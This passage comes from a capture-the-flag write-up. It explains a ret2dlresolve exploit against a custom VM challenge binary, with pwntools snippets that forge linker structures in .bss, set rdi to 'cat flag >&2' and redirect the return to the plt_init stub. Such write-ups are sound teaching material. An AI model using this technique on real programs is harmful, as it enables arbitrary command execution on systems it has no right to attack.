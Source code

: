 1. write the fake structures for `system` to a memory area which must be relatively close to the GOT (the `.bss` is usually perfectly suitable).
2. set `rdi` to the argument we want to call system with (the address of the string `cat flag >&2`).
3. overwrite the return address with the `plt_init` stub address and set its following 8 bytes (a stack block) to the correct `reloc_index`.

#### 1. Fake structures
The first requirement can be achieved by using the VM registers themselves. They are all stored in the `.bss` section, and each of them is 8 bytes long. This means we can control a 16*8 bytes memory area in the `.bss`. The pwntools `Ret2dlresolvePayload` function lets us specify where to store the payload, so that it can compute the `reloc_index` accordingly.

> Note that the `args` part of this payload is not really relevant for us, as we will set `rdi` to the desired argument afterwards.

```python
dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["whatever"], data_addr=exe.sym["regs"])
print(f"dlresolve.data_addr: {hex(dlresolve.data_addr)}")
print(f"dlresolve.reloc_index: {dlresolve.reloc_index}")

for i in range(0, len(dlresolve.payload) // 8):
    push_imm_64(u64(dlresolve.payload[8*i:8*(i+1)]))
    pop(i)
```

#### 3. Preparing the stack

The third requirement can be achieved by using the `restore` + `save` combination. The `plt_init` offset can be found using IDA, Ghidra, or just by copy-pasting the code pwntools uses to compute it from its source code. The `reloc_index` can be extracted from the `dlresolve` object generated in the previous step.

```python
restore()   # regs[14] = canary; regs[13] = stack leak; regs[12] = pie leak; regs[11] = reloc_index
LEAK_OFFS = 0x1cfe
PLT_INIT_OFFS = exe.get_section_by_name(".plt").header.sh_addr
print(f"plt_init_offs: {hex(PLT_INIT_OFFS)}")
set(LEAK_OFFS - PLT_INIT_OFFS, 0)
binary(OPCODE_SUB, 12, 0)

set(dlresolve.reloc_index, 11)
save()
```

> Note: the final exploit will actually perform `restore` + `save` first, before previous step.

#### 2. Setting `rdi`
To fulfill the second requirement, we need to control `rdi`. The last statement executed before the `return` instruction inside `vm` is a call to `parse`, which takes a pointer to our code as the first argument. At the `return` instruction, the value of `rdi` is not changed, and it is still pointing to our code buffer, meaning it is controlled. Considering whenever an invalid instruction is found the challenge just stops parsing, it is then possible to set `rdi = addr of arbitrary string` by just inserting the arbitrary string at the end of our code payload and making sure its first 4 chars do **not** represent a valid VM instruction. The string `cat flag >&2` works just as it is.
